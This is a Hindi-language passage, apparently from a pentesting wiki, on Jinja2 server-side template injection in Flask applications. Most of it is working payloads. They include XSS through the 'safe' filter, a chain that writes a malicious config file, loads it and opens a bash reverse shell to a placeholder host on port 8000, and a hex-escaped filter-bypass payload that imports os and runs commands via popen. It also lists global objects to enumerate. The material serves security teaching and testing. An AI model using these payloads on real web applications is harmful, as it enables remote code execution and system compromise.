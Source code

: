 * [**यह पढ़ें ताकि आप ऑब्जेक्ट क्लास के बिना RCE प्राप्त कर सकें**](jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than)

**HTML एन्कोडिंग से बचना**

डिफ़ॉल्ट रूप से Flask सुरक्षा कारणों से एक टेम्पलेट के अंदर सभी को HTML एन्कोड करता है:
```python
{{'<script>alert(1);</script>'}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```
**`safe`** फ़िल्टर हमें पृष्ठ में JavaScript और HTML को **बिना** **HTML एन्कोडेड** किए इंजेक्ट करने की अनुमति देता है, जैसे:
```python
{{'<script>alert(1);</script>'|safe}}
#will be
<script>alert(1);</script>
```
**एक बुरा कॉन्फ़िग फ़ाइल लिखकर RCE।**
```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
## बिना कई अक्षरों के

बिना **`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`**
```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}




```
## Jinja Injection बिना **\<class 'object'>**

[**ग्लोबल ऑब्जेक्ट्स**](jinja2-ssti.md#accessing-global-objects) से **RCE तक पहुँचने का एक और तरीका है बिना उस क्लास का उपयोग किए।**\
यदि आप उन ग्लोबल ऑब्जेक्ट्स में से किसी भी **फंक्शन** तक पहुँचने में सफल होते हैं, तो आप **`__globals__.__builtins__`** तक पहुँच सकते हैं और वहाँ से **RCE** बहुत **सरल** है।

आप **फंक्शंस** को ऑब्जेक्ट्स **`request`**, **`config`** और किसी भी **अन्य** दिलचस्प **ग्लोबल ऑब्जेक्ट** से ढूंढ सकते हैं, जिन तक आपको पहुँच है:
```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
```